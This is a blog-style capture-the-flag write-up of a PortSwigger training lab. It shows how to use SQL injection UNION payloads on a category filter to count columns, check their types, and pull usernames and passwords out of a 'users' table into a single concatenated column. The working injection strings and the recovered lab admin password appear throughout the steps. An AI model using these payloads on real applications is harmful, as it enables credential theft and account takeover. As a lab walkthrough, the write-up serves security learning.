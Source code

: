 ```yaml
---
layout: post
title: "SQLi UNION attack, retrieving multiple values in a single column"
date: 2023-06-24
categories:
  - CTF
  - PortSwigger
tags:
  - SQLi
---
```


## Description
This [lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column){:target="_blank"} contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## Steps
First, we know there are only 2 columns and not 3, since `category=Pets' ORDER BY 2--` doesn't return an error, but `category=Pets' ORDER BY 3--` does.

We also know that the returned columns are an Integer and a String, since the following query works without any errors: `category=Pets' UNION SELECT 1, 'a'--`

Therefore, we need to extract the username and password columns, which are usually two separate columns of data type String, from a single column.

You can concatenate multiple strings together to create a single string, using the syntax provided below:

|Database |Syntax |
|---|---|
|Oracle|`'foo'\|'bar'`|
|Microsoft|`'foo'+'bar'`|
|PostgreSQL|`'foo'\|'bar'`|
|MySQL|`'foo' 'bar'` *Note the space between the two strings*  <br>`CONCAT('foo','bar')`|


Based on this, let's concatenate the username and password and separate them with a `~`, using the following injection: `category=Pets' UNION SELECT NULL, username || '~' || password FROM users--`


<img src="https://jawad.ca/images/june2023/5.png">


Et voilà! The returned string is `administrator~f286lusiqzjnv720jo3k`. Let's test it out:

<img src="https://jawad.ca/images/june2023/6.png">


and it's solved! 
